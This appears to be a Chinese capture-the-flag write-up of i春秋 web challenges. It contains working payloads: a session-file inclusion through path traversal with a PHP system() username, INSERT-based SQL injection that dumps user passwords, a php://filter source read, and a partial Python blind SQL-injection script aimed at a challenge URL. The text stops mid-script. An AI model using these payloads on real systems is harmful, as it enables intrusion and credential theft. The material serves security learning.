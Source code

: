 注：浏览器后缀直接ichunqiu.com/phpinfo.php打开时，session.save_path和以上action文件执行不一致，不明白为什么

payload:?module=&file=../../../../tmp/SESS/sess_nlloqni0ef0tpqbt3jdj81rj75

注：注册登录后，你注册的账号在cookie里已设置了PHPSESSID，因此sess_nlloqni0ef0tpqbt3jdj81rj75就是sess_PHPSESSID

访问后可以看见用户名和uid，发现注册没有任何限制，注册用户名<?php system('cat flag.php'); ?>，登录后执行上面payload

一下博客详细介绍了session包含漏洞：https://blog.csdn.net/weixin_43803070/article/details/91047032

大佬的writeup:https://bbs.ichunqiu.com/thread-16750-1-1.html

https://www.jianshu.com/p/624fe6d09c0b


## blog（i春秋）

**insert注入**

留言板存在注入，猜测insert语句的值类似于: (username,title,content)
于是这里构造的insert语句类似于 ... values('aaa','testpayload2','test')#

这个payload过去报错了，这说明猜测的insert字段有误，既然不是三个，更不可能是两个，受控制的部分已经有两个了，因此推测insert语句的字段数为4.

查数据库名 title=1&content=test','X'),('aaa',(select database()),'content

查密码用户名 post: title=1&content=test','X'),('aaa',(SELECT group_concat(password) from users),'content

能看见一个密码是我刚才注册的 一个是admin的密码 登录admin,发现manager页面，存在文件包含

??module=php://filter/read=convert.base64-encode/resource=../flag&name=php

大佬的wp：https://blog.csdn.net/qq_30123355/article/details/58161312

## 登录（i春秋）
1.sql盲注

```
#-*- coding:utf-8 -*-
from urllib.request import urlopen 
from urllib import parse,request
import sys
import threading
 
url = 'http://002f115eb5d744f4a42ccb59fb06ef340f840a366d4147f0.changame.ichunqiu.com/Challenges/login.php'

def get_database_length():
	for i in range(1,sys.maxsize):
		username= "admin' or length(database())>{0}#"
		username = username.format(i) 
		values = {"username":username, 'password':''}   
		data = parse.urlencode(values).encode('utf-8')  
		response = request.Request(url, data)
		response = urlopen(response) 
		if len(response.read().decode()) != 4:
			print("当前数据库长度为：", i)
			return i

def get_database_name():
	global lock
	lit=list("0123456789qwertyuioplkjhgfdsazxcvbnmPOIUYTREWQASDFGHJKLMNBVCXZ")
	username="admin' or user() like '{0}%'#"
    # username="admin' or p3ss_w0rd like '{0}%'#"
	database=''
	print("Start to retrive the database") 
	while True:
		curId=0
		while True:  
			if curId == len(lit): 
```